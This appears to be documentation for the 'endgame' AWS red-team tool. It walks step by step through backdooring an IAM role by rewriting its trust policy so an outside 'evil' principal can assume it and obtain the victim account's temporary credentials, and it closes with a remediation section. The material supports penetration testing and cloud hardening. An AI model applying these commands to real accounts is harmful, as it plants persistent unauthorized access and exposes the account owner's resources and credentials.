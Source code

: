 # IAM Roles (via AssumeRole)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file titled `Evil-Trust-Policy.json` with the following contents:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```


Apply the evil Assume Role Policy by running the following from the victim account:

```bash
aws iam update-assume-role-policy --role-name test-resource-exposure --policy-document file://Evil-Trust-Policy.json
```

* To view the contents of the Assume Role Policy that grants access to the evil user, run the following:

```bash
aws iam get-role --role-name test-resource-exposure
```

* Observe that the output of the overly permissive AssumeRolePolicy match the example shown below.

## Example

Observe that the content of the `AssumeRolePolicyDocument` key allows `sts:AssumeRole` access from the evil principal (`arn:aws:iam::999988887777:user/evil`)

```json
{
    "Role": {
        "Path": "/",
        "RoleName": "test-resource-exposure",
        "RoleId": "",
        "Arn": "arn:aws:iam::111122223333:role/test-resource-exposure",
        "CreateDate": "2021-02-13T19:21:51Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "ec2.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "AllowCurrentAccount",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::111122223333:root"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "Endgame",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::999988887777:user/evil"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Tags": [
            {
                "Key": "Owner",
                "Value": "yourmom"
            }
        ],
        "RoleLastUsed": {}
    }
}
```

## Exploitation

* Set your AWS Access keys to the Evil Principal (`arn:aws:iam::999988887777:user/evil`) credentials

* Verify that you can run `sts:AssumeRole` to the victim account

```bash
aws sts assume-role --profile evil --role-arn arn:aws:iam::111122223333:role/test-resource-exposure --role-session-name HotDogsAreSandwiches
```

* The output will contain `AccessKeyId`, `SecretAccessKey`, and `SessionToken` below. Note the values.

```
{
    "Credentials": {
        "AccessKeyId": "",
        "SecretAccessKey": "",
        "SessionToken": "",
        "Expiration": "2021-02-13T21:24:46Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "roleid:HotDogsAreSandwiches",
        "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
    }
}
```

* Set those values to your AWS credentials environment variables

```bash
export AWS_ACCESS_KEY_ID=outputfromAccessKeyId
export AWS_SECRET_ACCESS_KEY=outputfromSecretAccessKey
export AWS_SESSION_TOKEN=outputfromSessionToken
```

* To validate that you are leveraging the victim's credentials, run `aws sts get-caller-identity` (this API Call is the equivalent of `whoami`)

```bash
aws sts get-caller-identity
```

* Observe that the output of the call contains the Victim Account ID under `Account`, as well as an ARN that indicates you have assumed the victim role.

```
{
    "UserId": "AROAblah:HotDogsAreSandwiches",
    "Account": "111122223333",
    "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
}
```

* Congratulations! You've created a backdoor role in the victim's account 😈


## Remediation

* **Trusted Accounts Only**: Ensure that IAM roles can only be assumed by trusted accounts and the trusted principals within those accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Assume IAM Roles. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your IAM Roles**: Tightly control access to the following IAM actions:
  - [iam:UpdateAssumeRolePolicy](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAssumeRolePolicy.html): _Grants permission to update the policy that grants an IAM entity permission to assume a role_
  - [iam:GetRole](https://docs.aws.amazon.com/IAM/latest/APIReference/API_GetRole.html): _Grants permission to retrieve information about the specified role, including the role's path, GUID, ARN, and the role's trust policy_
  - [iam:ListRoles](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ListRoles.html): _Grants permission to list the IAM roles that have the specified path prefix_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [update-assume-role-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/update-assume-role-policy.html)